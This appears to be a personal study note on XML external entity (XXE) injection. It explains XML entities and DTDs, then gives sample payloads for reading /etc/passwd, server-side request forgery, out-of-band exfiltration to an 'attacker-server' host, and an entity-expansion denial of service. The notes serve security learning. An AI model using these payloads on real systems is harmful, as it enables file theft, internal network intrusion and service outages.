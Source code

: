 >[!info]
>- Allows an attacker to interfere with an application's processing of XML data.
>- It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
----
## XML Entities

>[!question] What is XML?
>- `XML` stands for "extensible markup language".
>- `XML` is a language designed for storing and transporting data.
>- `XML` uses a tree-like structure of tags and data.
>- Unlike `HTML`, `XML` does not use predefined tags. 

>[!question] What are XML entities?
>- `XML` entities are a way of representing an item of data within an `XML` document, instead of using the data itself.
>- Various entities are built in to the specification of the `XML` language.

>[!question] What is document type definition?
>- The `document type definition (DTD)` contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items.
>- The `DTD` is declared within the optional `DOCTYPE` element at the start of the `XML` document.
>- The `DTD` can be fully self-contained within the document itself (`Internal DTD`) or can be loaded from elsewhere (`External DTD`) or can be hybrid of the two.
----
>[!info] Main XML Entities
>
>>[!example] Predefined Entities  
>>These are built-in entities in `XML` that represent special characters:
>>- `&lt;` --> Represents the `<` character.
>>- `&gt;` --> Represents the `>` character.
>>- `&amp;` --> Represents the `&` character.
>>- `&apos;` --> Represents the `'` character.
>>- `&quot;` --> Represents the `"` character.
>
>>[!example] Custom Entities
>>These are user-defined entities declared in the `Document Type Definition (DTD)`:
>>```xml
>><!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
>>```
>>This definition means that any usage of the entity reference `&myentity;` within the `XML` document will be replaced with the defined value: "`my entity value`".
>
>>[!example] External Entities
>>`XML` external entities are a type of custom entity whose definition is located outside of the `DTD` where they are declared.
>>The declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` or file from which the value of the entity should be loaded:
>>```xml
>><!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
>>```
>>```xml
>><!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
>>```
>
>>[!example] Parameter Entities
>>These are used exclusively within `DTDs` and are prefixed with a `%`:
>>```xml
>><!ENTITY % paramEntity "This is a parameter entity">
>>```
>
>>[!example] General Entities
>>These are the most common type of entities and are referenced in the `XML` document body:
>>```xml
>><!ENTITY generalEntity "This is a general entity">
>>```
>
>>[!example] Internal Entities
>>These entities are defined within the `DTD` and do not reference external resources:
>>```xml
>><!ENTITY internalEntity "This is an internal entity">
>>```
----
>[!warning] How do XXE vulnerabilities arise?
>- Some applications use the `XML` format to transmit data between the browser and the server.
>- Applications that do this virtually always use a standard library or platform `API` to process the `XML` data on the server.
>- `XXE` vulnerabilities arise because the `XML` specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

>[!bug] XXE-Specific Entities
>
>>[!danger] File Retrieval
>>To perform an `XXE injection` that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted `XML` in two ways:
>>- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
>>- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
>>```xml
>><?xml version="1.0" encoding="UTF-8"?>
>><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
>><stockCheck><productId>&xxe;</productId></stockCheck>
>>```
>>
>>>[!tip]
>>>- With real-world `XXE` vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response.
>>>- To test systematically for `XXE` vulnerabilities, you will generally need to test each data node in the `XML` individually, by making use of your defined entity and seeing whether it appears within the response.
>
>>[!danger] Server-Side Request Forgery
>>Server-side application can be induced to make `HTTP` requests to any `URL` that the server can access.
>>- Define an external `XML` entity using the `URL` that you want to target, and use the defined entity within a data value.
>>- If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the `URL` within the application's response, and so gain two-way interaction with the back-end system.
>>- If not, then you will only be able to perform blind `SSRF` attacks.
>>```xml
>><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
>>```
>
>>[!danger] Out-of-Band Data Exfiltration
>>Using external entities to exfiltrate data to an external server:
>>```xml
>><!ENTITY % payload SYSTEM "file:///etc/passwd">
>><!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker-server/?data=%payload;'>">
>>```
>
>>[!danger] Denial of Service
>>Exploiting entities to cause resource exhaustion:
>>```xml
>><!ENTITY lol "lol">
>><!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
>><!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
>>```
----